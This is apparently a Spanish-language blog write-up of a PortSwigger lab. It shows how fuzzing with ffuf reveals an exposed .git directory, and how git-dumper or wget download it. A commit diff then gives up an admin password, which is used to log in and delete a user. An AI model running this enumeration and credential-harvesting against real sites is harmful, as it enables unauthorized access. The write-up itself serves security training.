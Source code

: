 ```yaml
---
title: Information Disclosure Lab 5
date: 2024-12-03 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Information Disclosure
tags:
  - Information Disclosure
  - Information disclosure in version control history
image:
  path: /assets/img/Information-Disclosure-Lab-5/Portswigger.png
---
```


## Skills

- Information disclosure in version control history

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` `revela` información `sensible` a través de su `historial de control de versiones`. Para `resolver` el laboratorio, `obtén` la `contraseña` del `usuario administrador`, luego `inicia sesión` y `elimina` al `usuario` `carlos`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Information-Disclosure-Lab-5/image_1.png)

`Fuzzeamos` la `web`, además de hacerlo desde `Burpsuite` podemos usar herramientas como `fuff` desde `consola`

```
# ffuf -c -t 10 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 77ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 132ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 184ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 171ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 199ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 58ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 52ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
```

Con `git-dumper` [https://github.com/arthaud/git-dumper.git](https://github.com/arthaud/git-dumper.git) podemos `descargarnos` todo el `.git/` y si queremos una alternativa con `interfaz gráfica` podemos usar `git-cola` [https://github.com/git-cola/git-cola.git](https://github.com/git-cola/git-cola.git)

```
# git-dumper https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/ project
```

Otra alternativa sería `descargarnos` todo usando `wget`

```
# wget -r https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/
```

`Listamos` los `logs`

```
# git log                                          
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 8ce2169ffe2532afaddebd8b63c8cedad993e662
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

`Vemos` el `último commit` y `obtenemos` una `contraseña`

```
# git show 0de9db705d356593125a122dd61dc2c5b4c059d6
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 26742e2..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=z9xi7od0a1z0ar5c36jz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

Nos `logueamos` con las credenciales `administrator:z9xi7od0a1z0ar5c36jz`

![](/assets/img/Information-Disclosure-Lab-5/image_2.png)

Pulsamos sobre `Admin panel` y le `borramos` la `cuenta` al usuario `carlos`

![](/assets/img/Information-Disclosure-Lab-5/image_3.png)
